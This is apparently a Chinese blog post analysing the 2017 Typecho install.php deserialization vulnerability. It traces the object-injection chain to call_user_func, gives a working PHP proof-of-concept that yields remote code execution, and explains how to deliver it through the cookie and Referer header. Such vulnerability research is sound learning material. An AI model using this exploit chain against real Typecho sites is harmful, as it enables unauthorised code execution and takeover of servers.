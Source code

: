 ```yaml
---
title: Typecho install.php 反序列化漏洞分析
date: 2017-10-30 14:32:18
tags: [反序列化,漏洞分析,php]
categories: Security
---
```

<script src="https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/pangu.js"></script>

正好在学习php代码审计，简单分析一下前几天的`Typecho install.php`反序列化漏洞

### 漏洞分析
漏洞点出现在`install.php`第229-235行:

![0](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/Affah)
这里进行了一个反序列化操作，一般碰到这个都值得注意一下

由于这是初始安装文件，复现时要想流程走到这里就得绕过程序自身的判断，它的判断逻辑如下:

![1](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/fQO9b)

就进行了两个简单的判断，`HTTP_REFERER`是否为空以及是否来源于本站，这是很容易绕过的

往下执行到`unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')))`反序列化操作，如果`Typecho_Cookie::get('__typecho_config')`可控的话就可能导致一个漏洞

跟进`Typecho_Cookie`类的`get()`方法分析一下:

![2](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/HW0eV)

可以看到`$_COOKIE[$key]`的内容都是我们可以控制的，存在风险

继续往下看到
`$db = new Typecho_Db($config['adapter'], $config['prefix']);`这里新建了一个`Typecho_Db`对象，跟进去看一下这个对象的构造方法:

![3](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/yLOrO)

注意这一行`$adapterName = 'Typecho_Db_Adapter_' . $adapterName;`
将`Typecho_Db_Adapter_`属性与字符串进行了拼接，这就涉及到php的一个特性，如果`Typecho_Db_Adapter_`传入的是一个实例化对象，那将自动触发这个对象的`__toString()`方法

我们全局搜索`__toString()`方法，可以在`Feed.php`的第223行找到一个`__toString()`方法:

![4](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/nXTJN)

里面进行了3个`if`判断，注意到第3个`if`中有这样一句(同样在第2个`if`中也存在):

![5](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/11MHn)

访问了`item`元素里的一个属性`screenName`，这就又涉及到php的一个特性，如果我们访问一个对象的私有属性或者不存在的属性到时候，会自动调用这个对象的`__get()`方法，所以我们只要找到一个`__get()`方法并且它的参数可控，那就形成了一条完整的调用链。

全局搜索`__get()`方法，在`Request.php`第269行:

![6](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/zcYKG)

继续跟进`get`，第295行

![7](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/EbE9r)

可以看到自定义的`get()`方法最终返回的是`$this->_applyFilter($value)`，跟进`_applyFilter()`看一下:

![8](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/tztDS)

注意这里调用了`call_user_func()`方法，而且这里的两个参数都是可控的，这就形成了一个任意代码执行的漏洞

反过来回顾一下整个流程，构造`call_user_func()`恶意方法——调用`__get()`方法——调用`__toString()`方法——控制传入的类——反序列化

### PoC
```
<?php
class Typecho_Feed
{
    const ATOM1 = 'ATOM 1.0';
    private $_type;
    private $_items;
	
    public function __construct(){
        $this->_type = $this::ATOM1;
        $this->_items[0] = array(
            'author' => new Typecho_Request(),
        );
    }
}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName'] = 'phpinfo()';
        $this->_filter[0] = 'assert';
    }
}
$exp = array(
    'adapter' => new Typecho_Feed(),
    'prefix' => 'test'
);
echo base64_encode(serialize($exp));
?>
```
构造`__typecho_config`的值等于PoC输出内容，加上`referer`头信息，发送给`http://localhost/install.php?finish=1`
PoC执行流程: base64编码后的序列化内容经过解码后反序列化，传给`Typecho_Db`构造函数，其中`adapter`参数是一个`Typecho_Feed`对象，拼接了字符串会调用`__toString()`方法，控制可控变量进入第2个if分支，执行到`$item['author']->screenName`，当`author`是一个`Typecho_Request`对象且没有`screenName`属性时，会调用`__get()`方法执行`_applyFilter()`，进而执行`call_user_func`，传入`assert(phpinfo());`执行成功

![9](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/Ple7u)

最后还有一个`ob_start()`的问题，`install.php`中开启了这个，

> 此函数将打开输出缓冲。当输出缓冲激活后，脚本将不会输出内容（除http标头外），相反需要输出的内容被存储在内部缓冲区中。

所以会触发异常后导致500，同时输出内容会在缓冲区会清除，@[LoRexxar'](https://lorexxar.cn/)给出了两个解决办法

> 1、因为`call_user_func`函数处是一个循环，我们可以通过设置数组来控制第二次执行的函数，然后找一处exit 跳出，缓冲区中的数据就会被输出出来。
 
> 2、第二个办法就是在命令执行之后，想办法造成一个报错，语句报错就会强制停止，这样缓冲区中的数据仍然会被输出出来。

总的来看这个漏洞还是比较经典的，涉及到几个特性和两三层的调用链，至于流传的“后门”说法还是持保留态度，我们还是回归到技术交流本身吧~

参考:

[Typecho 前台 getshell 漏洞分析](https://paper.seebug.org/424/)

[POP链和序列化，反序列化操作](http://www.blogsir.com.cn/safe/452.html)

<script>pangu.spacingPage();</script>
